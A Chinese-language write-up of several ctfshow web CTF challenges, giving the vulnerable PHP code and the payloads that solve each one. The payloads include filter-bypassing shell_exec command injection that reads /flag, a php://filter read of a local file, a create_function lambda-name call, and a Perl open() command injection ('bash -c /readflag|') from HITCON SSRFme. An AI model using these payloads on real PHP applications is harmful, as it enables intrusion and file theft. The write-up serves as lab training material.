


## web680
代码执行，没什么难度

secret那个文件下载下来就是flag

## web683
```php
<?php

   error_reporting(0);
   include "flag.php";
   if(isset($_GET['秀'])){
       if(!is_numeric($_GET['秀'])){
          die('必须是数字');
       }else if($_GET['秀'] < 60 * 60 * 24 * 30 * 2){
          die('你太短了');
       }else if($_GET['秀'] > 60 * 60 * 24 * 30 * 3){
           die('你太长了');
       }else{
           sleep((int)$_GET['秀']);
           echo $flag;
       }
       echo '<hr>';
   }
   highlight_file(__FILE__);
```
重点在第八行和第十行的判断，要求输入范围是5184000-7776000，满足条件的数会进入sleep，当然是不可能直接去输入一个数比如6000000，注意到第13行，在sleep前执行了一次int，所以考虑科学技术法绕过，比如变为6e6，这样int后执行的就是sleep(6)
payload：/?秀=6e6
## web761（$a==md5($a)）
0e215962017

## web779

```php
// /flag
function DefenderBonus($Pokemon){
    if(preg_match("/'| |_|\\$|;|l|s|flag|a|t|m|r|e|j|k|n|w|i|\\\\|p|h|u|v|\\+|\\^|\`|\~|\||\"|\<|\>|\=|{|}|\!|\&|\*|\?|\(|\)/i",$Pokemon)){
        die('catch broken Pokemon! mew-_-two');
    }
    else{
        return $Pokemon;
    }

}

function ghostpokemon($Pokemon){
    if(is_array($Pokemon)){
        foreach ($Pokemon as $key => $pks) {
            $Pokemon[$key] = DefenderBonus($pks);
        }
    }
    else{
        $Pokemon = DefenderBonus($Pokemon);
    }
}

switch($_POST['myfavorite'] ?? ""){
    case 'picacu!':
        echo md5('picacu!').md5($_SERVER['REMOTE_ADDR']);
        break;
    case 'squirtle':
        echo md5('jienijieni!').md5($_SERVER['REMOTE_ADDR']);
        break;
    case 'mewtwo':
        $dream = $_POST["dream"] ?? "";
        if(strlen($dream)>=20){
            die("So Big Pokenmon!");
        }
        ghostpokemon($dream);
        echo shell_exec($dream);
}
```

主要是第三行的过滤，可以使用od带出数据，通配符*？也过滤了，考虑之前无数字字母时的RCE，用[x-x]这种代替，

payload：``dream=od%09/f[b-z][Z-f]g&myfavorite=mewtwo``

```python
'''
Author: KonDream
Date: 2022-01-24 23:11:40
LastEditors:  KonDream
LastEditTime: 2022-01-24 23:37:37
Description:  
'''

a = ['072143','071546','067550','075567','034464','062463','032065','061062','032055','034070','026543','062064','062543','060455','033544','026542','034061','061545','060543','060471','061467','062062']

for i in a:
    hex_i = str(hex(int(i, 8))[2:])
    print(chr(int(hex_i[2:], 16)), end="")
    print(chr(int(hex_i[:2], 16)), end="")

# ctfshow{493e542b-488c-4dce-ad7b-18ecca9a7c2d}
```

对数据a需手动修正

## web784

非预期了

``payload：?file=php://filter/convert.base64-encode/resource=/flag.txt``

## web787(匿名函数)

```php
<?php

error_reporting(0);
/*创建匿名函数，$key为%00lambda_%d*/
$key = create_function("","die(`cat /flag.txt`);");
/*生成32位随机数*/
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function ctfshow_$hash(){"
    ."global \$key;"
    ."\$key();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__);
```

此题关键点在于create_function，这个函数创建了一个匿名函数，我们想要拿到flag就只有调用$key或者ctfshow_$hash()，如果去碰撞这个hash显然不现实，这里如果打印$key会发现其实它返回``%00lambda_%d``，%d是从1开始逐增的整数，也就是说在最开始的时候``$key=%00lambda_1``，我们每一次访问页面后面的数字都会增加，``%00lambda_2、%00lambda_3``等等，所以这个题只有一次成功机会，在环境刚开时打入payload：``?func_name=%00lambda_1``

## web793

**出处：[HITCON 2017]SSRFme**

```php
<?php
    # GET 类似于ls，可以获取目录结构，也可以用于命令执行
    $data = shell_exec("GET " . escapeshellarg($_GET["url"])); 
	# 以数组的形式返回关于文件路径的信息
    $info = pathinfo($_GET["filename"]); 
	# $info["dirname"]为目录路径，并且去掉了.
    $dir  = str_replace(".", "", basename($info["dirname"])); 
	# 创建目录
    @mkdir($dir); 
	# 切换目录
    @chdir($dir); 
	# 写文件
    @file_put_contents(basename($info["basename"]), $data); 
    highlight_file(__FILE__); 
```

踩坑点：本地复现时是win环境，GET命令无法执行，卡了我好一会

首先获取根目录下文件结构：``payload：?url=/&filename=test/test.txt``

访问 test/test.txt 得到



有个flag和readflag，flag并不能直接读，所以是通过readflag去读flag内容

**tips：file伪协议在使用的时候会执行perl中的open函数，open存在命令执行，前提条件是必须存在以 即将执行的命令 命名的文件夹，才会触发。**

第一步创建同名文件：?url=&filename=bash -c /readflag|

第二步命令执行：?url=file:bash -c /readflag|&filename=/test/test.txt

**别忘了管道符**



此外也可以弹shell，但是perl下弹shell我一直失败，如有成功的师傅烦请滴滴我让我膜一下Orz
